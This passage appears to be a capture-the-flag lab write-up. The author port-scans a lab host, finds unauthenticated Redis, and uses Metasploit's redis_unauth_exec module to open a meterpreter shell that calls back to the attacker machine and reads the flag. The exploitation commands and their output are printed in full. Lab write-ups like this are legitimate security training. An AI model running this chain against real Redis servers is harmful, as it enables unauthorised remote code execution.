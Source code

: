 Well, that's unfortunate. It seems every port is closed. The detail oriented, however, will recall that nmap only scans the 1000 most frequently seen ports by default. Since the host did respond to an ICMP ping, it is incredibly unlikely that it is listening on no ports, so I told NMAP to scan all ports (including 0).

```
root@attackdefense:~# nmap -sV 192.8.72.3 -p 0-65535
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-06 23:01 IST
Nmap scan report for target-1 (192.8.72.3)
Host is up (0.000015s latency).
Not shown: 65535 closed ports
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.8
MAC Address: 02:42:C0:08:48:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.08 seconds
```

That's more like it.

```
msf5 > search Redis

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  auxiliary/gather/ibm_bigfix_sites_packages_enum           2019-03-18       normal     No     IBM BigFix Relay Server Sites and Package Enum
   1  auxiliary/scanner/redis/file_upload                       2015-11-11       normal     No     Redis File Upload
   2  auxiliary/scanner/redis/redis_login                                        normal     No     Redis Login Utility
   3  auxiliary/scanner/redis/redis_server                                       normal     No     Redis Command Execute Scanner
   4  exploit/linux/redis/redis_unauth_exec                     2018-11-13       good       No     Redis Unauthenticated Code Execution
...
```

Using the _exploit/linux/redis/redis\_unauth\_exec_ module, and the default meterpreter payload, getting the flag is as easy as setting the right options and hitting run.

```
msf5 exploit(linux/redis/redis_unauth_exec) > set lhost 192.8.72.2
lhost => 192.8.72.2
msf5 exploit(linux/redis/redis_unauth_exec) > set srvhost 192.8.72.2
srvhost => 192.8.72.2
msf5 exploit(linux/redis/redis_unauth_exec) > run
...
meterpreter > ls
Listing: /root
==============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  3106   fil   2020-04-02 22:22:21 +0530  .bashrc
40700/rwx------   4096   dir   2020-04-02 22:22:37 +0530  .cache
100644/rw-r--r--  148    fil   2020-04-02 22:22:21 +0530  .profile
100644/rw-r--r--  33     fil   2020-04-02 22:22:37 +0530  flag
100644/rw-r--r--  46808  fil   2020-04-06 23:11:22 +0530  xbsc.so

meterpreter > cat flag
```